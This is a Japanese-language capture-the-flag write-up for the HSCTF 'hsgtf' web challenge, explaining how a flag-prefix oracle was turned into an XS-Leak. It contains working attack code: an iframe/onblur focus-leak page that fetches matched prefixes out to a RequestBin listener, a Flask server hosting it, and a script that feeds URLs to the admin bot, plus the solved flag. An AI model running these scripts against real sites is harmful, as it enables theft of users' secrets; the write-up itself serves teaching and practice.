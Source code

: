 # hsgtf:web:489pts
Why solve challenges when you can just guess the flag?  
[http://web1.hsctf.com:8001/](http://web1.hsctf.com:8001/)  
**Note: Your target is only the linked website; do not actually attempt to guess flags on the HSCTF challenge platform.**  
Downloads  
[hsgtf.zip](hsgtf.zip)  

# Solution
URLとソースが配布される。  
hsgtf  
[site1.png](site/site1.png)  
flagをguessしろといわれるが、私はエスパーではないので難しい。  
謎のURL報告機能も付いており、Adminが見てくれるようだ(ドメインの制限はなく、httpのみのスキーム制限がある)。  
Report  
[site2.png](site/site2.png)  
ソースを見てみると以下のようであった。  
```python
import os
import re
from flask import Flask, render_template, request

app = Flask(__name__)
USER_FLAG = os.environ["USER_FLAG"]
ADMIN_FLAG = os.environ["FLAG"]
ADMIN_SECRET = os.environ["ADMIN_SECRET"]

@app.route("/guess")
def create():
	if "guess" not in request.args:
		return "No guess provided", 400
	guess = request.args["guess"]
	
	if "secret" in request.cookies and request.cookies["secret"] == ADMIN_SECRET:
		flag = ADMIN_FLAG
	else:
		flag = USER_FLAG
	
	correct = flag.startswith(guess)
	return render_template("guess.html", correct=correct, guess=guess)

@app.route("/")
def index():
	return render_template("index.html")

if __name__ == "__main__":
	app.run()
```
単純な実装であり、入力とflagの先頭からを比較し結果を返してくれる。  
一致していた場合は  
![image1.png](images/image1.png)  
一致していない場合は  
![image2.png](images/image2.png)  
となる。  
単純にflagを取得することができるが、ソースによるとこれは`USER_FLAG`のようである。  
`ADMIN_FLAG`が取得したいが、`ADMIN_SECRET`は持っていない。  
`ADMIN_FLAG`のguessのためにcookieに`ADMIN_SECRET`が入っていることを要求していることからも、Admin Botには設定されていると考えられる。  
つまり、Admin Botにflagをguessさせた結果を取得しなければならない。  
URL報告機能からは結果は何も帰ってこないために、XS-Leaks的な手法が必要とされる。  
報告機能にドメインの制限はないため、iframeなどで何か読み取れるかもしれない。  
おそらく`USER_FLAG`と`ADMIN_FLAG`のふるまいに違いはないため、`USER_FLAG`でguessした場合の結果を調査する。  
サイトのソースは以下のようであった。  
一致していた場合  
```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<meta http-equiv="X-UA-Compatible" content="IE=edge" />
		<title>Create Page</title>
		<meta name="viewport" content="width=device-width, initial-scale=1" />
		<link rel="stylesheet" href="/static/index.css" />
	</head>
	<body>
		

		<div id="correct">
			<h1>Correct!</h1>
			<p>The flag starts with: "flag{"</p>
			<a id="continue" href="/">Continue Guessing</a>
		</div>
		
	</body>
</html>
```
一致していない場合  
```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8" />
		<meta http-equiv="X-UA-Compatible" content="IE=edge" />
		<title>Create Page</title>
		<meta name="viewport" content="width=device-width, initial-scale=1" />
		<link rel="stylesheet" href="/static/index.css" />
	</head>
	<body>
		
		<div id="wrong">
			<h1>Wrong!</h1>
			<p>Your guess was: "flagO"</p>
			<a id="tryagain" href="/">Try Again</a>
		</div>
		
	</body>
</html>
```
サイズもあまり変わらないため、読み込みスピードなどもほぼ同じである。  
`id="correct"`と`id="wrong"`が変化しており、aタグの`id="continue"`と`id="tryagain"`も変化している。  
idでのリークはフラグメント識別子によるiframeのフォーカスの移り変わりを検知する手法が[知られている](https://xsleaks.dev/docs/attacks/id-attribute/)。  
今回でいえば、iframeのURLに`#continue`と指定すると、一致していた場合にフォーカスがiframeの中の`id="continue"`に移り、一致していない場合は`id="tryagain"`のみであるためフォーカスが映らない。  
これを外部のあらかじめフォーカスしておいた要素の`onblur`(フォーカスが離れた際に発生するイベント)で検知するといった手法である。  
一致(`flag{`)をリークするHTMLは以下のようになる。  
リークの受信は[RequestBin.com](https://requestbin.com/)を用いた。  
```html
<html>
<body>
<a id="satoki" href="http://example.com" onblur="fetch('https://xxxxxxxxxxxxx.x.pipedream.net?s=flag{')">satoki</a>
<script>
document.getElementById("satoki").focus();
var ifr = document.createElement("iframe");
ifr.src = "http://web1.hsctf.com:8001/guess?guess=flag{#continue";
document.body.appendChild(ifr);
</script>
</body>
</html>
```
`flag{`を`flagO`にするとリクエストが飛ばなくなることがわかる。  
これをAdmin Botに踏ませればよいが、puppeteerなどを使っていると初回アクセス時にURLバーにフォーカスしてしまい、うまくいかない。  
`windows.open`でいくつか開いてやることにする。  
手動でアルファベットすべてのiframeを作成するのは面倒なので、以下のleak.pyで自動化する。  
```python
from flask import Flask, request

app = Flask(__name__)

my_server = "https://xxxxxxxxxxxxx.x.pipedream.net"

@app.route("/<flag>")
def leak(flag):
    w_open = ""
    if request.args.get("open") is None:
        w_open = f"window.open('/{flag}?open');"
    return f"""
<html>
<body>
<a id="satoki" href="http://example.com" onblur="fetch('{my_server}?s={flag}')">satoki</a>
<script>
{w_open * 10}
document.getElementById("satoki").focus();
var ifr = document.createElement("iframe");
ifr.src = "http://web1.hsctf.com:8001/guess?guess={flag}#continue";
document.body.appendChild(ifr);
</script>
</body>
</html>
"""

if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
これを自身のサーバ(ex.`http://leakpy.satoki`)でホスティングする。  
このサーバにAdmin Botをアクセスさせるために、URLを報告するスクリプトcpost.pyを以下のようにする。  
```python
import time
import requests

flag = ""
my_leakpy_server = "http://leakpy.satoki"

MAX_POST = 2
for c in "_{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
    for _ in range(MAX_POST):
        res = requests.post("http://web1.hsctf.com:8000/hsgtf", data={"url": f"{my_leakpy_server}/{flag + c}"})
        time.sleep(1)
        #print(res.status_code)
        #print(res.text)
```
リークリクエストを受信するごとに、変数`flag`へ一文字ずつ追加していく。  
POSTリクエストはAdmin Botが不安定であったため、`MAX_POST`回行う設定になっている。  
複数回実行すると以下のようにflagが一文字ずつ取得できる(下から上の順)。  
![image3.png](images/image3.png)  
最終的に`/?s=flag{guessgod_nkdtcfpoghau}`を受け取り、これがflagであった。  
GuessTheFlag……  

## flag{guessgod_nkdtcfpoghau}